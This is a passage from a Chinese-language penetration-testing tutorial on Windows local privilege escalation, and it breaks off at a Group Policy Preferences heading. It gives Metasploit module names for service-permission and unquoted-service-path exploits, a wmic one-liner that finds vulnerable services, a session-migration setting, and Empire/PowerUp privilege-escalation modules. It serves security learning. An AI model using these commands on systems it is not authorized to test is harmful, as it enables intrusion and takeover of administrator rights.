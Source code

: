 4.3.1 系统服务权限配置错误

Windows 在系统启动时，会伴随着一些高权服务启动，倘若某些服务存在一些漏洞，那么就能够借此服务进行权限劫持

实现方法可借助：  
1.Powershell 中的 [PowerUp 脚本](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

2.Metasploit 中的攻击模块

```
#需要提前获取一个session
exploit/windows/local/service\_permissions


```

4.3.2 可信任服务路径漏洞

如果一个服务的可执行文件的路径没有被双引号引起来且包含空格，那么这个服务就是有漏洞的

MSF 使用实战：

```
#寻找存在漏洞的服务
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\\\" | findstr /i /v """

exploit/windows/local/trusted\_service\_path

#正常接收到会话后，不久就会自动断开连接，需要开启命令自动迁移进程
set AutoRunScript migrate -f


```

4.3.3 计划任务

如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序，这样在下次计划执行时，就会以高权限来运行恶意程序。

```
#查看计算机的计划任务
schtasks /query /fo LIST /v


```

4.3.4 Empire 内置模块

```
usemodule privesc/powerup/allchecks
execute


```

### 4.4 组策略首选项提权

组策略首选项 (Group Policy Preferences,GPP)
